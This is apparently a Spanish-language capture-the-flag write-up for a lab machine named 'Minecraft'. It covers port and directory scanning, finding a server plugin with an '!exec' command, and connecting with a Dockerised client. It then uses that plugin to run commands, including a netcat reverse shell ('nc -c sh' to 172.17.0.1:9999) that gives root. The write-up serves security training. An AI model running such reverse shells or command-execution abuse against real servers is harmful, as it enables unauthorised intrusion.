

# 🟥 Minecraft

## 🕵️ Reconocimiento

Comenzamos con un escaneo de puertos con `nmap`:

```bash
nmap -sC -sV -Pn $IPTARGET | tee nmap
```

<figure><figcaption></figcaption></figure>

Solo se encuentra activo el puerto 80 HTTP. Realizamos un escaneo de directorios con `ffuf`:

```bash
ffuf -w /usr/share/wordlists/SecLists-2025.2/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u "http://$IPTARGET/FUZZ" -e .html,.php,.txt,.xml,.js
```

<figure><figcaption></figcaption></figure>

Accedemos a la web para ver su contenido.

<figure><figcaption></figcaption></figure>

En el código fuente de la web vemos que hay un comentario que hace referencia a un fichero `.txt` sobre un plugin:

<figure><figcaption></figcaption></figure>

Si accedemos a ese fichero a través de la web, nos encontramos lo siguiente:

<figure><figcaption></figcaption></figure>

En el código podemos ver que existe un comando (`!exec`) que permite ejecutar comandos en el sistema. Esto podría ser útil para más adelante.

Vamos a probar si hay algún servidor activo de minecraft en el puerto por defecto (25565). Para ello, usamos la herramienta `mcstatus`:

```bash
python -m venv venv
source venv/bin/activate
pip install mcstatus
mcstatus 172.17.0.2:25565 status
```

<figure><figcaption></figcaption></figure>

Efectivamente hay un servidor en la versión 1.12.2. Instalamos un cliente de Minecraft a través de Docker:

```docker
FROM ubuntu:22.04

ENV DEBIAN_FRONTEND=noninteractive

# Instalamos dependencias gráficas, OpenGL, Java, Unzip y XRANDR
RUN apt-get update && apt-get install -y \
    wget unzip default-jre openjdk-17-jre libx11-6 libxext6 libxrender1 libxtst6 libxxf86vm1 \
    libgl1-mesa-glx libgl1-mesa-dri libgtk-3-0 libnss3 libasound2 libopengl0 x11-xserver-utils \
    && rm -rf /var/lib/apt/lists/*

# Creamos un usuario
RUN useradd -m ctfplayer
USER ctfplayer
ENV HOME=/home/ctfplayer
WORKDIR /home/ctfplayer

# Descargamos TLauncher para Linux (nos hacemos pasar por un navegador para que no nos bloqueen)
RUN wget --user-agent="Mozilla/5.0" -O tlauncher.zip "https://tlauncher.org/jar" \
    && unzip tlauncher.zip \
    && rm tlauncher.zip

# El zip extrae un archivo llamado TLauncher-x.xx.jar. Usamos comodín para ejecutar el que sea.
CMD ["sh", "-c", "java -jar $(find . -name '*TLauncher*.jar' -o -name '*tlauncher*.jar' | head -n 1)"]
```

```bash
sudo docker build -t minecraft-ctf .
```

Creamos la carpeta que vamos a vincular al docker y le damos permisos:

```bash
mkdir -p ~/.minecraft-docker
sudo chown -R 1000:1000 ~/.minecraft-docker
```

Con el siguiente comando entramos al docker para poder abrir el cliente de MInecraft (TLauncher):


```bash
sudo docker run --rm -it --net=host -e DISPLAY=$DISPLAY -e LIBGL_ALWAYS_SOFTWARE=1 -v /tmp/.X11-unix:/tmp/.X11-unix --device /dev/dri --privileged -v ~/.minecraft docker:/home/ctfplayer/.minecraft minecraft-ctf /bin/bash
```


```bash
java -jar TLauncher.jar
```

Y seleccionamos la versión 1.12.2.

<figure><figcaption></figcaption></figure>

Una vez conseguida la mayor criminalidad vista hasta la fecha, podemos añadir el servidor y conectarnos.

Lo primero que observamos es que tenemos permisos como OP. Listamos los plugins que están cargados:

<figure><figcaption></figcaption></figure>

Está el plugin que vimos anteriormente en la web. Probamos a ejecutar un comando:


```
!exec whoami
```


<figure><figcaption></figcaption></figure>

## 🚪 Ganando acceso

Podemos ejecutar una reverse shell hacia nuestra máquina para ganar acceso como `root` directamente.


```
!exec nc -c sh 172.17.0.1 9999
```


<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Una vez dentro, miramos la flag de `root`:

<figure><figcaption></figcaption></figure>
